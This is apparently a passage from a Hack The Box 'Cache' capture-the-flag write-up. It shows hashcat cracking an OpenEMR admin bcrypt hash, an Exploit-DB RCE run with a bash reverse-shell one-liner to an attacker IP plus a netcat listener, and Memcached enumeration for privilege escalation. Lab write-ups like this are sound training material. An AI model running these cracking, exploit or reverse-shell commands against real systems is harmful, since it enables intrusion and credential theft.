 
4. Crack the found password hash, using hashcat.

    root@nidus:/git/htb/cache# cat hash.txt
      $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.

    root@nidus:/git/htb/cache# hashcat -a0 -m3200 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
      ..
      Status...........: Cracked

    root@nidus:/git/htb/cache# cat cracked.txt
      $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx

    Login with the cracked credentials - openemr_admin:xxxxxx


5. When authenticated, there are several exploits. One interesting is a RCE, giving us a reverse shell. https://www.exploit-db.com/exploits/45161
   Download the script, setup your listener and execute.

   root@nidus:/git/htb/cache# python openemr_rce.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.17/4488 0>&1'
   root@nidus:~# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.17] from (UNKNOWN) [10.10.10.188] 36004
    bash: cannot set terminal process group (1251): Inappropriate ioctl for device
    bash: no job control in this shell

    www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
      www-data


6. Run linpeas and we find some local running services, 3306 (MySQL) and 11211 (Memcached). Memcached is not well known, so I
   decide to start there. Googling for "Memcached Priv Esc" I found a writeup for the old HTB box Dab, and within they extract
   data from Memcached slabs.

    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    ..
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -


    Access Memcached through a local Telnet session.
    </public_html/interface/main$ telnet 127.0.0.1 11211

    List available slabs with 'stats slabs'
     stats slabs
      STAT 1:chunk_size 96
      STAT 1:chunks_per_page 10922
      STAT 1:total_pages 1
      STAT 1:total_chunks 10922
      STAT 1:used_chunks 5
      STAT 1:free_chunks 10917
      STAT 1:free_chunks_end 0
      STAT 1:mem_requested 371
      STAT 1:get_hits 0
      STAT 1:cmd_set 1415
      STAT 1:delete_hits 0
      STAT 1:incr_hits 0
      STAT 1:decr_hits 0
      STAT 1:cas_hits 0
      STAT 1:cas_badval 0
      STAT 1:touch_hits 0
      STAT active_slabs 1
      STAT total_malloced 1048576
      END

